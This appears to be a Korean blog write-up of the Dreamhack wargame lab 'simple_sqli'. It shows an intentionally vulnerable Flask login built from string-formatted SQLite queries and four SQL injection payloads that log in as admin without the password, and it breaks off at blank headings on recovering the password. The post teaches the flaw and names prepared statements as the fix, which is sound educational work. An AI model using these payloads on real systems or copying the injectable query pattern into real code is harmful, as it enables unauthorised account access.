 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (3) : Exercise"
categories: web-hacking
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```



# Web Hacking [함께실습] simple_sqli
## 웹 서비스 분석
### 데이터베이스 구조

```python
#데이터 베이스 파일명을 database.db로 설정
DATABASE = "database.db"
# 파일이 존재하지 않는 경우
if os.path.exists(DATABASE) == False:
    # 파일 생성 및 연결
    db = sqlite3.connect(DATABASE) 
    # users 테이블 생성
    db.execute('create table users(userid char(100), userpassword char(100));')
    # 관리자와 guest 계정 생성 (데이터 입력)
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit() # 쿼리 실행 확정
    db.close() # db 연결 종료
```
<br>

**위의 코드로 생성된 데이터 베이스의 구조**<br>
이 때 guest 계정의 비밀번호는 이요앚가 알 수 있지만, admin 게정은 랜덤하게 생성됨 16바이트의 문자열이기에, 비밀번호를 예상할 수 없다

|userid|userpassword|
|:------:|:---|:---|
|guest|guest|
|admin|랜덤 16바이트 문자열을 Hex 형태로 표현 (32비트)|

### 엔드포인트 : /login

```python
# Login 기능에 대해 GET과 POST HTTP 요청을 받아 처리함
@app.route('/login', methods=['GET', 'POST']) 
def login(): # login 함수 선언
    if request.method == 'GET': 
        # 이용자가 GET 메소드의 요청을 전달한 경우, 이용자에게 ID/PW를 요청받는 화면을 출력
        return render_template('login.html')
    else: # POST 요청을 전달한 경우
        # 이용자의 입력값인 userid를 받은 뒤, 이용자의 입력값인 userpassword를 받고
        userid = request.form.get('userid') 
        userpassword = request.form.get('userpassword')
        # users 테이블에서 이용자가 입력한 userid와 userpassword가 일치하는 회원 정보를 불러옴
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res: # 쿼리 결과가 존재하는 경우
            userid = res[0] # 로그인할 계정을 해당 쿼리 결과의 결과에서 불러와 사용
            if userid == 'admin': # 이 때, 로그인 계정이 관리자 계정인 경우
                return f'hello {userid} flag is {FLAG}' # flag를 출력
            # 관리자 계정이 아닌 경우, 웰컴 메시지만 출력
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        # 일치하는 회원 정보가 없는 경우 로그인 실패 메시지 출력
        return '<script>alert("wrong");history.go(-1);</script>'
```

## 취약점 분석 & 익스플로잇 (Exploit : 취약점 공격)
### 관리자 계정의 비밀번호를 알아내고 올바른 경로로 로그인
위의 login 함수에서 userid와 userpassword를 받은 후, query_db 함수를 사용하여 SQLite에게 질의한다. 이처럼 동적으로 생성한 쿼리를 RawQuery라고 한다. RawQuery를 생성할 때, 이용자의 입력값이 쿼리문에 포함된다면 SQL Injection에 노출된다. 이용자의 입력값을 검사하는 과정이 없기에, 임의의 쿼리문을 userid, userpassword에 삽입하여 공격할 수 있는 것이다. SQL 데이터를 사용할 때 쿼리문을 직접 생성하는 방식이 아닌, Prepared Statement와 ORM(Object Relational Mapping)을 사용하여 해결할 수 있다. Prepared Statement는 동적 쿼리가 전달되면 내부적인 쿼리 분석을 통해 안전한 쿼리문을 생성한다

```python
def query_db(query, one=True): # query_db 함수 선언
    cur = get_db().execute(query) # 연결된 데이터베이스에 쿼리문을 질의
    rv = cur.fetchall() # 쿼리문 내용을 받아오기
    cur.close() # 데이터베이스 연결 종료
    # 쿼리문 질의 내용에 대한 결과를 반환
    return (rv[0] if rv else None) if one else rv 
```
#### 로그인 쿼리

```sql
SELECT * FROM users WHERE userid="{userid}" AND userpassword="{userpassword}";
```
#### SQL Injection 공격 쿼리문 작성

```sql
/*
ID: admin, PW: DUMMY
userid 검색 조건만을 처리하도록, 뒤의 내용은 주석처리하는 방식
*/
SELECT * FROM users WHERE userid="admin"-- " AND userpassword="DUMMY"

/*
ID: admin" or "1 , PW: DUMMY
userid 검색 조건 뒤에 OR (또는) 조건을 추가하여 뒷 내용이 무엇이든, admin 이 반환되도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" or "1" AND userpassword="DUMMY"

/*
ID: admin, PW: DUMMY" or userid="admin
userid 검색 조건에 admin을 입력하고, userpassword 조건에 임의 값을 입력한 뒤 or 조건을 추가하여 userid가 admin인 것을 반환하도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" AND userpassword="DUMMY" or userid="admin"

/*
ID: " or 1 LIMIT 1,1-- , PW: DUMMY
userid 검색 조건 뒤에 or 1을 추가하여, 테이블의 모든 내용을 반환토록 하고 LIMIT 절을 이용해 두 번째 Row인 admin을 반환토록 하는 방식
*/
SELECT * FROM users WHERE userid="" or 1 LIMIT 1,1-- " AND userpassword="DUMMY"
```

### 관리자 계정의 비밀번호를 모른 채 로그인을 우회
1. 개발자도구의 네트워크 탭 -> Preserve log
2. userid, password에 guest를 입력하고 login 버튼 클릭
3. /login으로 전송된 POST요청 찾기
4. 하단의 Form Data 확인

#### 비밀번호 길이 파악
#### 비밀번호 획득


